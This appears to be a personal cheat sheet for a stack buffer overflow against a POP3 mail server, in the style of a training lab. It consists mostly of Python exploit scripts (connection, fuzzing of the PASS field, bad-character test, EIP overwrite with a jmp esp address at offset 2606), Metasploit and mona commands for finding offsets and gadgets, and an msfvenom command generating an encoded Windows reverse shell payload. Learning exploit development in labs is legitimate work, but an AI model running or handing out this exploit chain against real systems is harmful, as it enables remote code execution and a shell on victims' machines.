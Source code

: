 # bof walkthrough  
(Best intro walkthrough: https://github.com/justinsteven/dostackbufferoverflowgood)  

CONNECT  
#!/usr/bin/python  

import socket  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
try:  
         print "\nSending evil buffer..."  
         s.connect(('IP',PORT))            # connect to IP, port  
         data = s.recv(1024)                     # receive banner  
         print data                              # print banner  
         s.send('USER test' +'\r\n')             # send username "test"  
         data = s.recv(1024)                     # receive reply  
         print data                              # print reply  
         s.send('PASS test\r\n')                 # send password "test"  
         data = s.recv(1024)                     # receive reply  
         print data                              # print reply  
         s.close()                               # close socket  
         print "\nDone!"  
except:  
    print "Could not connect to POP3!"  

FUZZ  


#!/usr/bin/python  
import socket  

#Create an array of buffers, from 1 to 5900 with increments of 200.  
buffer = ["A"]  
counter = 100  
while len(buffer) <= 30:  
    buffer.append("A"*counter)  
    counter=counter+200  

for string in buffer:  
    print "Fuzzing PASS with %s bytes" % len(string)  
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
    connect=s.connect(('IP',PORT))  
    s.recv(1024)  
    s.send('USER test\r\n')  
    s.recv(1024)  
    s.send('PASS ' + string + '\r\n')  
    s.send('QUIT\r\n')  
    s.close()  

Find EIP  
 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700   

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q    

Badchars  

#!/usr/bin/python  
import socket  

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  

badchars = (  
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"  
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"  
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"  
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"  
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"  
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"  
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"  
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"  
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"  
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"  
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"  
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"  
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"  
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"  
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"  
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )  

buffer ="A"*2606 + "B"*4 + badchars  

try:  
    print "\nSending evil buffer..."  
    s.connect(('IP',PORT))  
    data = s.recv(1024)  
    s.send('USER username' +'\r\n')  
    data = s.recv(1024)  
    s.send('PASS ' + buffer + '\r\n')  
    s.close()  
    print "\nDone!"  
except:  
    print "Could not connect to POP3!"  

!mona modules  

jmp esp  

push esp  
retn  

ruby /usr/share/metasploit-framework/tools/nasm_shell.rb  
add eax,12  
jmp eax  

!mona find -s "\xff\xe4" -m slmfc.dll (mona find jmp esp in .dll file)  


#!/usr/bin/python  

import socket  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  

buf = "A" * 2606 + "\x5f\x4a\x35\x8f" + "C" *(3500 - 2606 - 4)  

try:  
    print "\nSending evil buffer..."  
    s.connect(('IP',PORT))  
    data = s.recv(1024)  
    print data  
    s.send('USER test' +'\r\n')  
    data = s.recv(1024)  
    print data  
    s.send('PASS ' + buf + '\r\n')  
    data = s.recv(1024)  
    print data  
    s.close()  
    print "\nDone!"  

except:  
    print "Could not connect to X!"  

 msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"  

